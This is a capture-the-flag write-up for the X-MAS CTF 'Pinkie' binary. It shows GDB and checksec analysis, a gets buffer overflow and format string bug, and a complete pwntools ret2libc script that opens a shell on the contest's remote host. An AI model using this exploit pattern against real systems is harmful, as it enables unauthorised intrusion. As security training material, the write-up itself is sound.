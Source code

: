 ## exploit

In this challenge we have to exploit ELF 32 bit not stripped executable that returns 2 gifts: 
```
Here are some gifts from Santa: 0x8049940 0xf7e48da0
```

With GDB we can notice that the first address refers to a bunch of bytes in `.bss` section:

```
info symbol 0x8049940

section .bss of /home/vagrant/share/xmasCTF/Pinkie/pinkiegift.dms

gdb-peda$ x/40wx 0x8049940
0x8049940 <binsh>   :	0x00000000	0x00000000	0x00000000	0x00000000
0x8049950 <binsh+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049960 <binsh+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049970 <binsh+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049980 <binsh+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049990 <binsh+80>:	0x00000000	0x00000000	0x00000000	0x00000000
0x80499a0 <binsh+96>:	0x00000000	0x00000000	0x00000000	0x00000000
```

Normally the `bss` section is not executable, it could be useful in order to place some shellcode but require a previous call to `mprotect` to execute that, or I could write with `gets` or other libc function some bytes and obtain all strings I need. 

The second gift is a real gift! An address to libc `system` procedure. So now i could try to search in `text` or `data` or `bss` section (not affected by ASLR) an `sh` strings and exploit executable without using the first gift. Moreover we can notice from the output of remote program, that ASLR is enabled.

Ok now I only have to figure out where vulnerability is, with checksec we can see the following:

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

We've got no canary, and after executing program with ltrace I can notice that, after printing the gifts, it perform a gets followed by printf and another gets.

The printf output exactly what inserted with the first gets and here we have a format string vulnerability:

```
Here are some gifts from Santa: 0x8049940 0xf7de8850
%x
a7825
```
So we could for istance try to write printf GOT entry in order to call system instead of printf but I considered that: 

* No checks boundary are performed after gets
* The absence of canary permit to perform ret2libc to system passing `sh` string as argument

The exploit:

```python
#!/usr/bin/env python3
from pwn import *

r=remote('199.247.6.180', 10006)
out=r.recvuntil('\n')
print(out)
addr_system=out.split()[-1]
addr_bin_sh=out.split()[-2]
print(addr_system)
r.send(b"/////////////////////bin/sh"+b"\n")
r.send(p32(int(addr_system,16))*36+p32(0x8048f48)+b"\n")
r.interactive()

r.close()
```
##### flag: X-MAS{F0rm47_57r1ng_15_7h3_b3st_pr353n7_f0r_l1773_buff3r_0v3rfl0w}




